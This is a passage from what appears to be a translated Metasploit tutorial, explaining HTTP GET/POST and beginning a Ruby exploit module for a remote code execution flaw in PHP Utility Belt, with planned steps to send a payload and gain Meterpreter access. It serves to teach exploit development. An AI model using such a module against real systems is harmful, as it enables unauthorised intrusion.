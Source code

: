 通过使用前述参数，我们可以传递与我们的请求相关的各种值。一个例子是设置我们特定的 cookie 和我们选择的其他参数。让我们保持简单，专注于`URI`参数，即可利用的 Web 文件的路径。

`method`参数指定它是`GET`还是`POST`类型的请求。在获取/发布数据到目标时，我们将使用这些。

# GET/POST 方法的基本要点

`GET`方法将请求数据或来自指定资源的网页，并用它来浏览网页。另一方面，`POST`命令将来自表单或特定值的数据发送到资源进行进一步处理。现在，在编写基于 Web 的利用时，这非常方便。HTTP 库简化了将特定查询或数据发布到指定页面。

让我们看看我们需要在这个利用中执行的操作：

1.  创建一个`POST`请求

1.  使用`CODE`参数将我们的有效载荷发送到易受攻击的应用程序

1.  获取目标的 Meterpreter 访问权限

1.  执行一些后期利用功能

我们清楚我们需要执行的任务。让我们进一步迈出一步，生成一个兼容的匹配利用，并确认它是否有效。

# 将 HTTP 利用导入 Metasploit

让我们按照以下方式编写 Metasploit 中 PHP 实用程序皮带远程代码执行漏洞的利用：

```
class MetasploitModule < Msf::Exploit::Remote 

  include Msf::Exploit::Remote::HttpClient 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'PHP Utility Belt Remote Code Execution', 
      'Description'    => %q{ 
         This module exploits a remote code execution vulnerability in PHP Utility Belt 
      }, 
      'Author'         => 
        [ 
          'Nipun Jaswal', 
        ], 
      'DisclosureDate' => 'May 16 2015', 
      'Platform'       => 'php', 
      'Payload'        => 
        { 
          'Space'       => 2000, 
          'DisableNops' => true 
        }, 
      'Targets'        => 
        [ 
          ['PHP Utility Belt', {}] 
        ], 
      'DefaultTarget'  => 0 
    )) 

    register_options( 
      [ 
        OptString.new('TARGETURI', [true, 'The path to PHP Utility Belt', '/php-utility-belt/ajax.php']), 
   OptString.new('CHECKURI',[false,'Checking Purpose','/php-utility-belt/info.php']), 
      ]) 
  end 
```
